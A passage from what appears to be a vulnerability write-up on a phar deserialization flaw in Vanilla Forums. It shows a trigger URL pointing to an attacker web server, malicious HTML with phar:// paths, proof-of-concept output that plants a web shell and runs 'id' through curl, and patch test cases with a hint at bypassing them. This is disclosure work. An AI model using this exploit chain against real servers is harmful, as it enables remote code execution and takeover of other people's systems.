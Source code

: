 ```php
$phar->stopBuffering();

// we rename it now
rename("poc.phar", "poc.jpg");
```

Now, to trigger the bug, we just need to do:

`http://target/index.php?p=/dashboard/utility/fetchPageInfo/http:%2f%2f[attacker-web-server]:9090%2f`

The URL encoding is important for exploitation. Now the attackers web server responds with:

```html
<html><body><img src="phar:///var/www/html/uploads/6O51ZT69P0S4.jpg">a</img></body></html>
```

Or, if you exploiting this vulnerability on Windows, you can do:

```html
<html><body><img src="phar:////attacker/share/test.phar">a</img></body></html>
```

The exploit I sent to Vanilla uses their own code to upload the image and leak the filename, which was an admin level authenticated feature. But it certainly doesn't mean that this bug is authenticated! Here is the output of my exploit.

```
saturn:~ mr_me$ ./poc.py 172.16.175.143 admin:admin123 172.16.175.1
(+) targeting: http://172.16.175.143
(+) logged in!
(+) uploaded phar!
(+) leaked phar name 6O51ZT69P0S4.jpg!
(+) starting http server...
(!) triggered callback for phar!
(+) triggered a write!
(+) shell at: http://172.16.175.143/?c=phpinfo();

saturn:~ mr_me$ curl -sSG "http://172.16.175.143/?c=system('id');"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### The patch

The [patch](https://github.com/vanilla/vanilla/commit/7e931112fb31da12e1566f6aa82c3f57cd3e8bcc) is interesting because the developer has also included their test cases against the vulnerable function. So maybe someone can develop their own test cases and bypass the patch!

```php
        $r = [
            'root' => ['/foo', 'http://ex.com/bar', 'http://ex.com/foo'],
            'relative' => ['bar', 'http://ex.com/foo', 'http://ex.com/foo/bar'],
            'relative slash' => ['bar', 'http://ex.com/foo/', 'http://ex.com/foo/bar'],
            'scheme' => ['https://ex.com', 'http://ex.com', 'https://ex.com'],
            'schema-less' => ['//ex.com', 'https://baz.com', 'https://ex.com'],
            'bad scheme' => ['bad://ex.com', 'http://ex.com', ''],
            'bad scheme 2' => ['foo', 'bad://ex.com', ''],
            '..' => ['../foo', 'http://ex.com/bar/baz', 'http://ex.com/bar/foo'],
            '.. 2' => ['../foo', 'http://ex.com/bar/baz/', 'http://ex.com/bar/foo'],
            '../..' => ['../../foo', 'http://ex.com/bar/baz', 'http://ex.com/foo'],
        ];
```
